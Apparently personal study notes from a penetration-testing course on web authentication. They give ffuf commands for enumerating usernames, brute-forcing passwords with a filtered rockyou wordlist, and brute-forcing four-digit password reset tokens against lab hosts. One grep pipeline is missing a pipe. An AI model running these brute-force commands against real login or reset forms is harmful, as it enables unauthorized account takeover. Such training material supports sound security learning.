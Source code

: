 **Case Study (2019):** A biometric smart lock provider was breached, leaking fingerprints, facial scans, passwords, and user addresses. Unlike a password reset, biometric identifiers cannot be replaced once stolen.  

---
# Brute-Force Attacks
## Enumerating Users


https://github.com/danielmiessler/SecLists/tree/master/Usernames


```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

----
## Brute-Forcing Passwords

```bash
wc -l /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```
```bash
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
```bash
wc -l custom_wordlist.txt
```
### `ffuf` command to brute-force the user's password:
```bash
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```
 [Cracking Passwords with Hashcat](https://academy.hackthebox.com/module/details/20) and [Password Attacks](https://academy.hackthebox.com/module/details/147) modules

---
## Brute-Forcing Password Reset Tokens

 ### Identifying Weak Reset Tokens
 ![[Pasted image 20250929053806.png]]
 
 - [ ] 1- Create an account on the target web application
 - [ ] 2- Request a password reset token
 - [ ] 3- analyze it 
---
## Attacking Weak Reset Tokens  
```bash
seq -w 0 9999 > tokens.txt 
```
```bash
head tokens.txt
```
```bash
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

---